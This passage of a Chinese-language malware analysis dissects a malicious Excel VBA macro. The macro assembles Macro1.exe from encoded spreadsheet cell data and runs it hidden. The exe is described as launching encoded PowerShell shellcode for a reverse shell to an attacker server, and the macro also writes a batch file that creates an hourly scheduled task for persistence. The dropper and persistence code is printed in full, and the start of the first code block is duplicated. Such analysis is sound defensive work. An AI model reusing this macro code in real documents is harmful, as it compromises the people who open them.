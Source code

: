 ```
    Loop
    Close #Fnslr3
Dim Fnslr10 As String
Fnslr10 = Fnslr1
    Fnslr7 = Shell(Fnslr10, vbHide)
Dim i As Double
i = 1000
    Fnslr1 = "Macro1.exe"
    Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplates"
    Fnslr3 = FreeFile()
    Open Fnslr1 For Binary As Fnslr3
    Do While Sh2.Cells(i, 9) <> ""
            Fnslr11 = Sh2.Cells(i, 9)
        If (Fnslr9 = True) Then
            Fnslr8 = 1
            Do While (Fnslr8 < Len(Fnslr11))
                Fnslr6 = Sh2.Cells(997, 40) & Mid(Fnslr11, Fnslr8, 3)
                Put #Fnslr3, , Fnslr6 
                Fnslr8 = Fnslr8 + 3
            Loop
        End If
        If Fnslr9 = False Then
            Fnslr9 = True
        End If
         i = i + 1
    Loop
    Close #Fnslr3
Dim Fnslr10 As String
Fnslr10 = Fnslr1
    Fnslr7 = Shell(Fnslr10, vbHide)

```

写入 Macro1.exe 所需的数据，从 Excel 表格中 Cells(997, 40) 周围读取，实际测试数据开始位置是 1001行，

![p7](http://drops.javaweb.org/uploads/images/7344edf7bc5717920f328402f69fcf06d481b3a0.jpg)

代码尾部使用 Shell 函数，启动生成的 Macro1.exe 。

文件信息

![p8](http://drops.javaweb.org/uploads/images/48e343342241c645299b7f4a861c57bbd54d4586.jpg)

可执行文件是 x64位的，功能是，启动 powershell 附带 –enc 参数，执行一段 shellcode ，这段 shellcode是一个 reverse shell ，连接黑客服务器，等待下达命令。

此部分与下面创建计划任务不间断运行的功能呼应起来，此部分不是本文重点，不再详述。

### 5、

在 %serprofile% AppDataRoamingMicrosoftTemplates 目录生成 bat (cmd) 批处理脚本文件 Macro1.bat，

```
Fnslr2 = Environ(Sh2.Cells(998, 40)) & "AppDataRoamingMicrosoftTemplates"

Dim User As String
User = Environ(Sh2.Cells(998, 40))
 Fname = Fnslr2 & "Macro1.bat"
FNum = FreeFile
Open Fname For Output Access Write As #FNum

WholeLine = "SchTasks /Create /SC HOURLY /TN " & Sh2.Cells(1000, 3) & "Macro1" & Sh2.Cells(1000, 3) & " /TR" & " " & User & "AppDataRoamingMicrosoftTemplates" & "Macro1.exe /ST 01:00"
 Print #FNum, WholeLine
Close #FNum

```